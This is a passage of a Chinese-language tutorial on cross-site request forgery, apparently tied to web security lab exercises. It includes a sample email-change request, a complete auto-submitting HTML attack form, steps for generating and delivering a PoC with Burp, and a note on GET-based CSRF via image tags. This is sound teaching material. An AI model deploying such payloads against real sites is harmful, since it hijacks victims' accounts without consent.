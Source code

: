 ```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com

```

根据上面讲的三个要素，这个功能点是可以成功发动CSRF的，因为它可以执行攻击者感兴趣的操作(修改邮箱)，然后仅通过cookie来进行会话处理，而且参数只有一个email，所以是可以成功发动CSRF的。这样我们就可以构造这样的CSRF页面去触发它。

```
&lt;html&gt;
  &lt;body&gt;
    &lt;form action="https://vulnerable-website.com/email/change" method="POST"&gt;
      &lt;input type="hidden" name="email" value="pwned@evil-user.net" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

当我们把这个CSRF页面投放到受害者那里时会因为document.forms[0].submit()自动提交一个POST表单请求，同时会自动使用受害者的Cookie发送，即表示由受害者自主提交的修改邮箱请求。

### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E6%9E%84%E9%80%A0%E4%B8%80%E4%B8%AACSRF%E6%94%BB%E5%87%BB%EF%BC%9F"></a>如何构造一个CSRF攻击？

首先我们找到想要用来构造CSRF的请求，然后在burp中右键Engagement tools / Generate CSRF PoC，然后就会自动生成一个CSRF页面了。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E6%97%A0%E9%98%B2%E6%8A%A4%E7%9A%84CSRF%E6%BC%8F%E6%B4%9E"></a>配套靶场：无防护的CSRF漏洞

前面介绍过，我们需要先登录给定的用户抓取修改邮箱的请求包

[![](https://p4.ssl.qhimg.com/t015371dac67733d63a.png)](https://p4.ssl.qhimg.com/t015371dac67733d63a.png)

我们看到这个功能还是很好用的，可以自动生成CSRF页面，然后我们将其复制到Exploit Server投放给受害者，就能成功修改其邮箱地址了。

[![](https://p1.ssl.qhimg.com/t01c2f62361e9da17a8.png)](https://p1.ssl.qhimg.com/t01c2f62361e9da17a8.png)

### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E5%88%A9%E7%94%A8CSRF%EF%BC%9F"></a>如何利用CSRF？

在XSS专题中其实我们已经有所提及了，img会自动向src属性指定的域名发出请求，有的应用程序允许通过发送GET请求修改邮箱地址，所以我们可以将src设置为带有GET参数的CSRF URL，当加载该img时即会触发CSRF。
